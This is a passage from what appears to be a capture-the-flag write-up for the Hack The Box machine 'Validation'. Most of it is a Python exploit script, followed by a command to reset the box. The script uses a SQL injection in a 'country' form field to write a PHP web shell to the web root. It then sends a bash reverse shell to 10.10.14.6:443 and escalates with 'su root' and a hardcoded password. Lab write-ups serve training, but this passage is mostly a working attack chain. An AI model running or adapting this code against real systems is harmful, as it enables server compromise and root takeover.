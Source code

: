 ```python
            'country': """Brazil' union select "<?php system($_REQUEST['cmd']); ?>" into outfile '/var/www/html/%s'-- -""" % filename
    }

    r = requests.post(main_url, data=data_post)


def getAccess():

    data_post = {
            'cmd': "bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'"
    }

    r = requests.post(main_url + "%s" % filename, data=data_post)

if __name__ == '__main__':

    createFile()
    try:
        threading.Thread(target=getAccess, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()
    shell.sendline("su root")
    time.sleep(2)
    shell.sendline("uhc-9qual-global-pw")
    shell.interactive()
```

<br/>
<img src="{{ site.img_path }}/validation_writeup/Validation_28.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

> The only thing left to do is to kill the **Validation** box with `htbExplorer`

```bash
./htbExplorer -k Validation
```

